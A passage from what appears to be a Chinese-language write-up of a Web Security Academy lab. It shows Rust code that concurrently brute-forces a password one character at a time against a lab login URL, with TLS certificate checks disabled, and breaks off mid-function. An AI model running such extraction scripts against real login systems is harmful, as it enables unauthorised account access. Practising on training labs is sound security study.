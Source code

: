 ```rust
async fn main() -> Result<()> {
    let start = Instant::now();
    let payload = get_payload();
    let mut password = "".to_string();
    for i in 1..=MAX_NUM {
        let mut set = JoinSet::new();
        for j in payload.iter() {
            set.spawn(send_payload(i.clone(), j.to_owned()));
        }
        loop {
            let task_result = set.join_next().await;
            match task_result {
                Some(v) => match v? {
                    Ok(result) => {
                        password += &result;
                        set.abort_all();
                        break;
                    }
                    Err(_) => {
                        continue;
                    }
                },
                None => {
                    continue;
                }
            }
        }
    }
    println!("use time {}", start.elapsed().as_secs());
    println!("{}", password);
    Ok(())
}
```

## 第三个版本

在这个版本中使用了futures库的join_all方法，本以为这种方法会比第二个版本的速度更快一点，不过最终爆破密码话费了90秒左右

```rust
use futures::future::join_all;
use reqwest::{header::HeaderMap, Client};
use tokio::{task::JoinSet, time::Instant};

const URL: &'static str = "https://0a25006d03b8fc6c80420848005800b6.web-security-academy.net/login";
const MAX_NUM: i32 = 20;

type Error = Box<dyn std::error::Error + Send + Sync>;
type Result<T> = std::result::Result<T, Error>;

fn get_payload() -> Vec<String> {
    let res = ('a'..='z')
        .chain('0'..='9')
        .map(|b| b.to_string())
        .collect::<Vec<_>>();
    res
}

async fn send_payload(i: i32, j: String) -> Result<String> {
    let client = Client::builder()
        .danger_accept_invalid_certs(true)
        .build()?;
    let mut headers = HeaderMap::new();
```